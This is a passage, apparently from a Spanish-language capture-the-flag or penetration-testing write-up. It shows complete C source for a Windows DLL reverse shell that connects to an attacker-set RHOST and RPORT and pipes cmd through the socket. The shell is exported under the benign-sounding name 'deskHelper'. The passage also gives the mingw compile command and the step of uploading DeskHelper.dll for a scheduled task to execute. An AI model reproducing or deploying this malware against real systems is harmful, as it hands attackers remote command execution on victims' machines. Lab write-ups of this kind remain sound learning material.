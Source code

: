     if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        return FALSE;
    }

    sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    if (sock == INVALID_SOCKET) {
        WSACleanup();
        return FALSE;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(RPORT);
    server.sin_addr.s_addr = inet_addr(RHOST);

    if (WSAConnect(sock, (SOCKADDR*)&server, sizeof(server),
                   NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        closesocket(sock);
        WSACleanup();
        return FALSE;
    }

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE)sock;

    if (CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
    }

    closesocket(sock);
    WSACleanup();
    return TRUE;
}

__declspec(dllexport) void deskHelper() {
    ReverseShell();
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
Y lo he compilado de esta manera.

x86_64-w64-mingw32-gcc -shared -o DeskHelper.dll rev.c -lws2_32 -Wl,--subsystem,windows
Ahora subimos el DeskHelper.dll y esperamos a que se ejecute la tarea.
